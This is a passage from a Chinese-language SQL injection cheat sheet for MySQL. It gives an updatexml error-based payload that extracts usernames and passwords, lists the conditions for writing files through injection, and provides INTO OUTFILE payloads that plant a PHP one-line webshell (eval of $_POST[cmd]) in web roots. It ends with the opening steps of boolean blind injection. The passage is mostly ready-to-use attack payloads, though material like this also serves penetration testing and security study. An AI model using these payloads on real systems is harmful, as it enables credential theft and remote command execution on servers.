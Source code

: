 ##### 其他类似函数：

```
updatexml(1,(select substr((group_concat(username,0x7e,password)),1,32) from users),1) --+
```

### 5. 导入导出文件

#### 一、说明

	mysql支持通过sql语句进行导入/导出文件，导入的话就直接可以 sqli -> webshell了，而导出的话也可以读取服务器上很多敏感的配置文件。

#### 二、条件

```
1. 权限为root
2. secure_file_priv=空
3. 知道网站的物理路径 | 因为导入导出文件是必须要绝对路径的MySQL不接受相对路径
```

#### 三、判断

1. 判断是否是root连接 

  ```
SELECT CURRENT_USER(), USER();
  ```

2. 判断secure_file_priv是否为空 **| 不是NULL，NULL就是绝对禁止导入/导出**

  ```
SHOW VARIABLES LIKE 'secure_file_priv';
  ```

  `secure-file-priv` 参数，它是一个启动时加载的只读变量，不允许连接中修改，只能通过**my.cnf/ini**文件修改，然后重新启动mysql。

#### 四、执行

	如果非常幸运条件都满足，尝试导入一句话木马

```
SELECT 1 INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY '<?php @eval($_POST[cmd]);?>';
```

```
select 1,"<?php @eval($_POST[cmd]);?>",3 into outfile "F:\\PHPstudy\\phpstudy_pro\\WWW\\aaa.php" --+
```

### 6. 布尔手工盲注步骤

#### 一、确定猜的目标的长度

```
?id=1' and (select length(database())>1) and 1=1  --+ true
?id=1' and (select length(database())>10) and 1=1  --+  flase
?id=1' and (select length(database())>5) and 1=1  --+ true
?id=1' and (select length(database())>6) and 1=1  --+ true
?id=1' and (select length(database())>8) and 1=1  --+ flase
```
